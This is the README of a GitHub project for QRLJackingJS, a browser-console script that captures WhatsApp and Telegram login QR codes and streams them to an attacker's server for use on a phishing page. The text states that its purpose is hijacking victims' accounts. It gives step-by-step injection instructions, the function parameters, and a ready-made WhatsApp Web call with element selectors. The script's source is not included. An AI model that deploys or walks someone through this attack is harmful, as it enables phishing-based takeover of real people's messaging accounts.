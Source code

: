 
<p align="center">
<img src="https://i.imgur.com/O8ppAj4.png" width="550px">
</p>

# About

Using a web browser only, this tool will copy the login QR code from your browser and send it to your own server so you can display it in a phishing page (~ real time). The QR code login method is supported by many apps including WhatsApp and Telegram, this tool will allow you to hack into victims accounts in no time.

# Documentation (Usage)

#### Step 1.

Open Firefox or Chrome (desktop verison) and go to the target website where you can find the needed QR code.

#### Step 2.

In the top address bar you can see permissions button on the left / right side. You must allow pop-ups for the target website. Also, you can allow pop-ups from the website permissions / settings list.

#### Step 3.

A. add the JQuery library code to the target browser tab using the Inspect Element → Console → Copy & Paste & Hit Enter.

```html
Copy the code from: jquery.min.js
```

B. add QRLJackingJS code (included) to the target browser tab using the Inspect Element → Console → Copy & Paste & Hit Enter.

```html
Copy the code from: qrljackingjs.min.js
```

#### Step 4.

Open inspect element tool in your browser then inpect the QR code or its container. Also, if there's a reload button like the one in WhatsApp Web, you can select it too to make sure that the tool will reload it automatically.

#### Step 5.

Now you are ready to start the attack. Call **QRLJackingJS()** function after adding your prefered settings.

```javascript
QRLJackingJs(
bas64ImageServerPOSTParam, // the parameter you have on your server to receive the base64 encoded image 
elementToScreenshotSelector, // the element that has the QR image in it eg. #qrCodeDiv 
attackWaitingTimeBeforeSendingEachScreenshotInSeconds, // waiting time between each screenshot sending. Recommended: 4
reloadButtonSelector, // optional: used to auto click the QR code reload element if any 
reloadButtonWaitingTimeBeforeSendingInSeconds // optional: waiting time after clicking the reload button and before sending the screenshot 
);
```

WhatsApp Web real example:

```javascript
QRLJackingJs(
'base64_image', // the parameter you have on your server to receive the base64 encoded image
'._2UwZ_:first', // the element that has the QR image in it
4, // waiting time between each screenshot sending
'._2znac:first', // used to auto click the QR code reload element if any
2 // waiting time after clicking the reload button and before sending the screenshot
);
```

### Explanation

The result is that the tool will send the QR code screenshot (._2UwZ_:first) to your server URL (the tool will ask you to enter it) each 4 seconds, the POST request parameter will be (base64_image) and the tool will auto-click the reload button (._2znac:first) then wait (2 seconds) before sending the new QR code again.

### Testing On WhatsApp Web and Telegram Web (PoC)

https://www.youtube.com/watch?v=MxbnwWJoMN0

### Official Project Documentation & Guide

Visit the project official page for step-by-step, screeshots and video guides:

https://uplody.com/lab/qrljackingjs/

### Copyrights

- QRLJackingJS Author: Mohammad F. Atwi | https://www.linkedin.com/in/mohd-atwi/
- QRLJacking Attack Author: Mohamed Abdelbasset Elnouby (@SymbianSyMoh) | https://github.com/SymbianSyMoh
- OWASP QRLJacking Attack: https://owasp.org/www-community/attacks/Qrljacking

